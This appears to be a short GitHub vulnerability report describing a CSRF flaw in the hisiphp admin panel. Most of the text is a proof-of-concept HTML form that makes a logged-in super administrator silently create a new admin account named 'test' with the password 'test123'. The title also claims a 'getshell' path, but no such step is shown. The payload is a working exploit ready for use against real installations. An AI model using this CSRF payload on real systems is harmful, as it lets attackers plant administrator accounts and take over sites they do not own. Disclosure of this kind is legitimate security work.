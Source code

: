 # vuln
csrf and Background getshell!





The background operation has no scrf protection, and can use this vulnerability to perform various sensitive operations such as adding, deleting, and checking the management background. For example: add a system administrator

POC:
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/hisiphp-master/hisiphp-master/admin.php/admin/user/adduser.html" method="POST">
      <input type="hidden" name="role&#95;id" value="2" />
      <input type="hidden" name="username" value="test" />
      <input type="hidden" name="nick" value="test" />
      <input type="hidden" name="password" value="test123" />
      <input type="hidden" name="password&#95;confirm" value="test123" />
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="hidden" name="mobile" value="18888888888" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="id" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

The super administrator will add a 'test' account after accessing the link generated by the above poc test. The password is 'test123'.
